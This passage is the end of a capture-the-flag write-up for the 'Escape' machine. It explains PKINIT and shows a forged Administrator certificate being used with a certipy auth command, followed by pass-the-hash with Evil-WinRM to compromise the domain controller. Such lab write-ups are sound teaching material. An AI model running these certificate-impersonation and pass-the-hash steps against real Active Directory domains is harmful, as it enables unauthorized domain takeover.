Before continuing, it is important to introduce a key concept:

**PKINIT** is a Kerberos protocol extension that allows users to authenticate by using a public key, preventing users from providing their password, which ensures a safe asymmetric data encryption flow during service and resources authentication. 

The generated `.pfx` secure file stores the malicious certificate that has been generated for impersonation (public key) and the impersonated user’s private key. This file could then be used to authenticate legitimately with the Domain Controller as the delegated `Administrator` user through PKINIT. This could be done with the following `certipy` command:

`certipy auth -pfx administrator.pfx -dc-ip <TARGET_IP>`



The PKINIT authentication was successful; the `Administrator` user account of the `DC$` machine had been successfully hijacked, which resulted in a critical full domain compromise. The tool leveraged the session that was held to query the DC in order to retrieve the user’s NTLM hash, which could be used to authenticate through a **Pass-the-Hash** attack, no matter how complex the password could be.

Since WinRM was enabled, Evil-WinRM could be used to leverage this technique, through the `-H` switch.



Full privileges have been successfully granted over the DC host’s system. The root flag could be accessed in the `C:\Users\Administrator\Desktop` directory.



Escape — PWND

## Thank you for reading!
